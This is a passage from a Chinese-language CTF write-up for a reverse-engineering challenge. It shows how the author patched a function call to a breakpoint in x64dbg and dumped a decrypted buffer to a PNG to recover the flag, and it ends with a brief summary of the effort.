

成功，那么要如何获取数据呢？显然不需要重新实现算法，因为解密程序已经为我们完成了所有操作。

只需要在传递到 `sub_1400010E0` 之前设置一个断点，以获取解密后的缓冲区指针和数据长度，然后 `dump` 即可。

original：

```asm
.text:000000014000157F E8 5C FB FF FF                call    sub_1400010E0
```

Patch：

```asm
.text:000000014000157F CC      int     3      ; Trap to Debugger
.text:0000000140001580 90      nop
.text:0000000140001581 90      nop
.text:0000000140001582 90      nop
.text:0000000140001583 90      nop
```

使用 `x64dbg`，用以下命令转储：

```text
savedata "D:\CTF\race\5353\decrypted.png", rcx, rdx
```



得到 `flag`：


## 总结

这个 CTF 只有这一道逆向题，并没有那么困难。就算身体不适，我也只花了 4 个小时来解决它。正常情况下，也许一半的时间就足够了。困难在于查阅文档和基本的 `Wireshark` 技能。

最后不要忘记从 `%temp%` 中删除 `data.png`！
